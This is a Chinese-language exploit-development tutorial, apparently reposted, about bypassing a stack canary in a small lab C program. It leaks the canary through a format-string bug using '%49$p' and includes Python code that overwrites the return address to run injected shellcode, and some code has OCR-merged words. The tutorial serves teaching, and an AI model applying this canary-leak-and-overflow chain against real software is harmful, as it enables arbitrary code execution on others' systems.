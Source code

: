   
这是一个简单的程序，允许用户以交互方式写入和读取数据。让我们在启用金丝雀保护的情况下编译并运行它：  
  
```
┌──(user㉿host)-[~]└─$ gcc -fstack-protector -zexecstack test.c -o test                                                                                                                                                         ┌──(user㉿host)-[~]└─$ ./test1- Write2- Read3- Read full data4- ExitChoose: 1Data: Hello Guys1- Write2- Read3- Read full data4- ExitChoose: 2Hello Guys1- Write2- Read3- Read full data4- ExitChoose: 1Data: I'm 0xNinjaCyclone1- Write2- Read3- Read full data4- ExitChoose: 2I'm 0xNinjaCyclone1- Write2- Read3- Read full data4- ExitChoose: 3Hello Guys I'm 0xNinjaCyclone1- Write2- Read3- Read full data4- ExitChoose: 4                                                                                                                                                         ┌──(user㉿host)-[~]└─$
```  
  
  
如果你留意读取函数，就会发现它们都容易受到格式化字符串漏洞的影响，即用户控制的数据printf以格式的形式传递给函数，而这种传递方式并不安全。该buf_read函数还容易受到缓冲区过度读取漏洞的影响，因为pBuf->cpReadData指针会打印出它指向的内容，并在读取完成后移动到内存中，而从未检查过移动到的内存是否属于它应该读取的缓冲区。利用这两个漏洞中的任何一个，我们都可以泄露秘密的金丝雀/cookie。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrFKI5icmPysFydibspAJp3YEIyVrVMPthdHibVB837sml6fkFvLbcktPUg/640?wx_fmt=png&from=appmsg "")  
  
如你所见，我们可以利用格式字符串漏洞，%49$p通过 write 函数注入有效载荷，然后利用 read 函数将其泄漏出去，从而泄露金丝雀数据。阅读格式字符串漏洞利用文章：  
https://0xninjacyclone.github.io/posts/exploitdev_7_strfmt/  
，了解我们的操作。我们可以使用 Python 自动执行此操作，如下所示：  
  
```
def leak_canary(p: Popen):    p.stdin.write( b"1\n" + b"%49$p\n" + b"2\n")    p.stdin.flush()    out= b""    canary_pos = -1    n = 0        while n < 1024:        out = p.stdout.readline()        canary_pos = out.find( b"0x" )        ifbool( ~canary_pos ):            break        n += 1    else:        return-1    canary = int( out[canary_pos : canary_pos+18], 16 )    return canary
```  
  
  
该函数将处理程序对象带到目标进程，注入有效负载，泄漏金丝雀，然后将金丝雀转换为整数值或在失败时返回 -1 后返回给调用者。  
  
现在，我们可以制作一个有效载荷，用正确的值覆盖金丝雀，注入一个shellcode，并通过覆盖指令指针来重定向执行流。  
  
```
defhijack_exec(p: Popen, canary):    payload = b""    payload += b"A" * 0x112                               # Fills the stack frame    payload += struct.pack( "<Q", canary ) # Places the correct canary value     payload += b"B" * 0x8                                 # Base pointer    payload += struct.pack( "<Q", 0x7fffffffdd60 + 0x40 ) # Instruction pointer    payload += b"\x90" * 0x40                             # NOPs for padding    payload += buf # Shellcode    p.stdin.write( b"1\n" )    p.stdin.write( payload + b"\n" )    p.stdin.flush()
```  
  
  
我们采用了缓冲区溢出文章中讨论的相同方法，在金丝雀攻击发生后，用垃圾数据填充帧以绕过保护机制，将 Shellcode 注入前一帧，并替换指令指针以引用 Shellcode。但是，要执行 Shellcode，主函数必须返回。我们可以使用第四个函数 (exit) 来实现这一点，它可以中断循环并允许主函数返回。  
  
```
defexit_target(p: Popen):    p.stdin.write( b"4\n" )
```  
  
  
注入后必须调用此函数来强制程序执行shellcode。  
  
```
defmain():    # We use 'stdbuf -o0' to force the targeted program pipes to be flushed    # So we can read leaked canary/cookie immediately    p = Popen( ["stdbuf", "-o0", TARGET_PATH], stdin=PIPE, stdout=PIPE )    # Make stdout non-blocking when using read/readline    flags = fcntl.fcntl( p.stdout, fcntl.F_GETFL )    fcntl.fcntl( p.stdout, fcntl.F_SETFL, flags | os.O_NONBLOCK )    canary = leak_canary( p )        if bool( ~canary ):        print( "Canary : 0x%x" % canary )        hijack_exec( p, canary )        exit_target( p )        out, _ = p.communicate()        print( out.decode() )    else:        exit_target( p )        print( "[-] Failed to leak the canary" )
```  
  